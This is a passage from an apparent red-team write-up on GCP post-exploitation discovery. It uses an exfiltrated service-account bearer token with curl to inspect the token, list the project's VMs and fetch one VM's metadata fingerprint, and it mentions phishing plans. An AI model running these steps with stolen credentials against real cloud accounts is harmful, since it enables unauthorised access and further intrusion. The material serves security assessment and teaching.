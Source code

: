 **Discovery: Get information of the cloud environment**

1. **Get information of the token**
```bash
export BEARER_TOKEN="<Exfiltrated Token>"

curl -H "Authorization: Bearer $BEARER_TOKEN" \
    https://oauth2.googleapis.com/tokeninfo
```

This call is very important because it will give you all the information about our token. This includes the scopes, the expiration time, but most importantly, the email account associated to this token.

If this token is associated to a real person we would normaly start preparing our phishing campaign. However, in this scenario, the token is associated with a service account (which is expected, because the token was granted by a Cloud Run application). 

The problem here is that the email account is the default GCP Compute Engine Developer account, which includes in its name the **project number**. A value that we can use just like the GCP project id. 

Below is an example output of the API command we just run.

```bash
{
  "azp": "012345678901234567890",
  "aud": "012345678901234567890",
  "scope": "https://www.googleapis.com/auth/cloud-platform [ommited]",
  "exp": "1753158715",
  "expires_in": "979",
  "email": "362514745896-compute@developer.gserviceaccount.com",
  "email_verified": "true",
  "access_type": "online"
}

# Export the project id that is embedded in the default service account email
export $PROJECT_ID="362514745896"
```

2. **List All VMs in the Project**
```bash
curl -H "Authorization: Bearer $BEARER_TOKEN" \
    https://compute.googleapis.com/compute/v1/projects/$PROJECT_ID/aggregated/instances

# Export the instance name, zone, and fingerprint
export INSTANCE_NAME="rodc-ajrc-local"
export ZONE="us-east1-d"
```

3. **Get metadata of a specific VM**
```bash
curl -H "Authorization: Bearer $BEARER_TOKEN" \
     "https://compute.googleapis.com/compute/v1/projects/$PROJECT_ID/zones/$ZONE/instances/$INSTANCE_NAME"

export FINGERPRINT="Pol5p_ogKXQ="
```


[Finding Class: Misconfigurations, Vulnerability; Resource Type: Google Cloud storage bucket; Severity: High]: #